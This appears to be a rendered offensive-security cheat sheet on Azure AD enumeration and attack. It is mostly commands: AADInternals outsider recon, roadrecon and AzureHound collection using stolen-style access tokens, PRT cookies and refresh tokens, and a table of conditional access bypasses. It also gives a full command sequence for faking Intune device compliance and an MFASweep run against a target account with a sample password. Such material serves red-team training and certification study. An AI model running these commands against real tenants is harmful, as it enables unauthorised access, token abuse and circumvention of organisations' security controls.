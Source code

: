 # Azure AD Enumerate

## OSINT AAD - Recon Domains

Extract openly available information for the given tenant: [aadinternals.com/osint](https://aadinternals.com/osint/)

```ps1
Invoke-AADIntReconAsOutsider -Domain "company.com" | Format-Table
Invoke-AADIntReconAsOutsider -UserName "user@company.com" | Format-Table
```

## Azure AD - Collectors

* roadrecon
    ```ps1
    roadrecon auth --access-token eyJ0eXA...
    roadrecon auth --prt-cookie <primary-refresh-token> -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"
    roadrecon gather
    ```
* AzureHound
    ```ps1
    ./azurehound --refresh-token <refresh-token> list --tenant "<target-tenant-id>" -o output.json
    ```


## Azure AD - Conditional Access Policy

Conditional Access is used to restrict access to resources to compliant devices only.

* Enumerate Conditional Access Policies: `roadrecon plugin policies` (query the local database)

| CAP                       | Bypass  |
|---------------------------|---------|
| Location / IP ranges      | Corporate VPN, Guest Wifi |
| Platform requirement      | User-Agent switcher (Android, PS4, Linux, ...) |
| Protocol requirement      | Use another protocol (e.g for e-mail acccess:  POP, IMAP, SMTP) |
| Azure AD Joined Device    | Try to join a VM (Work Access)|
| Compliant Device (Intune) | Fake device compliance |
| Device requirement        | / |
| MFA                       | / |
| Legacy Protocols          | / |
| Domain Joined             | / |


Bypassing conditional access by faking device compliance

```powershell
# AAD Internals - Making your device compliant
# Get an access token for AAD join and save to cache
Get-AADIntAccessTokenForAADJoin -SaveToCache
# Join the device to Azure AD
Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
# Marking device compliant - option 1: Registering device to Intune
# Get an access token for Intune MDM and save to cache (prompts for credentials)
Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
# Join the device to Intune
Join-AADIntDeviceToIntune -DeviceName "SixByFour"
# Start the call back
Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"
```

## Azure AD - MFA

* [dafthack/MFASweep](https://github.com/dafthack/MFASweep) - A tool for checking if MFA is enabled on multiple Microsoft Services
```ps1
Import-Module .\MFASweep.ps1
Invoke-MFASweep -Username targetuser@targetdomain.com -Password Winter2020
Invoke-MFASweep -Username targetuser@targetdomain.com -Password Winter2020 -Recon -IncludeADFS
```


## References

* [Bypassing conditional access by faking device compliance - September 06, 2020 - @DrAzureAD](https://o365blog.com/post/mdm/)
* [CARTP-cheatsheet - Azure AD cheatsheet for the CARTP course](https://github.com/0xJs/CARTP-cheatsheet/blob/main/Authenticated-enumeration.md)